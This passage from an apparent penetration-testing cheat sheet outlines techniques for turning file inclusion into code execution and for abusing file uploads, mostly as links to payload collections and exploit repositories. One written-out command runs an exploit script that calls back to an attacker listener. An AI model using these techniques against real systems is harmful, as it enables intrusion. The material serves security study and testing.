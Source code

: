         *   [User-Agent](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-procselfenviron)        → `/proc/self/environ`
        *   [PID Exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-procfd)         → `/proc/[PID]/fd/[FID]` → Bruteforce FID Integer
    *   PHPInfo
        *   `python lfito_rce.py -l "[QUERY_URL]" --lhost=[KALI_IP] --lport=[PORT] -i [PHPINFO_URL]`
        *   [Exploit](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/phpinfo)

### File Upload

*   Tools
    *   [Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
    *   [Mind Map](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Upload%20Insecure%20Files/Images/file-upload-mindmap.png?raw=true)
    *   Burp Upload Scanner
*   Allowed Files
    *   [Backend Executables](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#defaults-extensions) / [IIS Allowed](https://serverfault.com/questions/163396/which-file-extensions-are-always-going-to-be-ok-with-iis) → Upload Directory Discovery
    *   Configuration Files
        *   [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) / [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)  → Apache
        *   [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)                       → ASP.NET
        *   [package.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)                   → NodeJS Packages
        *   [composer.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)                → PHP Packages
        *   [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
        *   [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)
    *   PNG / JPG / DJVU / XML / ZIP
        *   [DJVU + EXIFTOOL RCE](https://github.com/LazyTitan33/ExifTool-DjVu-exploit)
        *   [ImageMagick 7.0.1-1](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files) / [7.1.0-49 beta](https://github.com/kljunowsky/CVE-2022-44268)
        *   [Jetty XML RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#jetty-rce)
        *   [ZIP Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#zip-archive)
        *   [PHP Compression Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#picture-compression)
    *   MP4 / AVI / WAV
        *   [FFMPEG CVE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS)
    *   [SVG](https://github.com/allanlw/svg-cheatsheet)
        *   SSRF
        *   XSS
        *   XXE 
        *   LFI
        *   RCE
    *   XML / HTML / MD / CSS
        *   XSS
        *   LFI
    *   Arbitrary Read
        *   Upload Malicious File → Request / Download 
        *   Non-Textual Content  → `cat [DOWNLOADED_FILE] | grep [HEX_PORTION] | xxd -r -p > [OUTPUT]`
*   Filter Bypass
    *   Client-Side Validation
        *   Send Allowed File                     → Intercept Request
        *   Change Filename & Content → Send
    *   Type Confusion